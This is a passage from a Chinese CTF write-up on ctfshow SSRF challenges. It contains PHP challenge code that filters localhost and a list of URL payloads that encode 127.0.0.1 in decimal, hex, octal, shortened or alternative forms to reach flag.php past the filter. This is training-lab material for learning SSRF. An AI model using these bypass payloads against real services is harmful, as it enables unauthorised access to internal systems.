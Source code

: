 ```php
}
else{
    die('hacker');
}
?> hacker
```

我们是是 ip 地址转数字   https://www.bejson.com/convert/ip2int/

```
127.0.0.1
2130706433
url=http://2130706433/flag.php
```

或者  ip 用其它进制转换   https://tool.520101.com/wangluo/jinzhizhuanhuan/

```
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
还有一种特殊的省略模式
127.0.0.1写成127.1
用CIDR绕过localhost
url=http://127.127.127.127/flag.php
还有很多方式不想多写了
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```

## web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```
